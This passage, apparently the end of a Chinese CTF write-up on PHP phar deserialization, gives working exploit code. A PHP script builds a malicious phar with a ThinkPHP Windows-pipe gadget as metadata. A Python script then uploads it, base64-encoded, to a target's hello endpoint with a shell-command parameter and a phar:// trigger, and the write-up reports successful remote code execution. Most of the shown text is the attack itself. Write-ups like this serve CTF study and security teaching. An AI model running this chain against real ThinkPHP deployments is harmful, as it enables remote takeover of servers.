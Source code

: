 ```php

namespace{
    use think\process\pipes\Windows;
    $w = new Windows();

    $p = new Phar('phar.phar');
    $p->startBuffering();
    $p->setStub('<?php __HALT_COMPILER();?>');
    $p->setMetadata($w);
    $p->addFromString("test", "12345");
    $p->stopBuffering();
}
```

执行后生成phar，然后执行脚本

```python
import requests
import urllib.parse
import base64
import os
with open('phar.phar','rb') as f:
    s = f.read()

s = urllib.parse.quote(base64.b64encode(s).decode())
# print(s)
remote = '<here_is_remote_ip>'
sess =requests.session()
r = sess.post(
    url = f'http://{remote}/index.php/index/index/hello',
    params={
        'ethan':'<here_is_your_shell_command>'
    },
    data = {
        'world':f'hello={s}&a=phar://./hello.txt'
    }
)
print(r.text)
```

成功RCE

---

## 总结

phar反序列化提供了一种扩展反序列化漏洞攻击面的方式、入口，所以基于unserialize()函数的各类攻击tricks（比如引用绕过之类的）依然适用。鉴于phar反序列化漏洞设计版本较多，相信CTF比赛中它仍然会稳定出场。

---

参考资料：
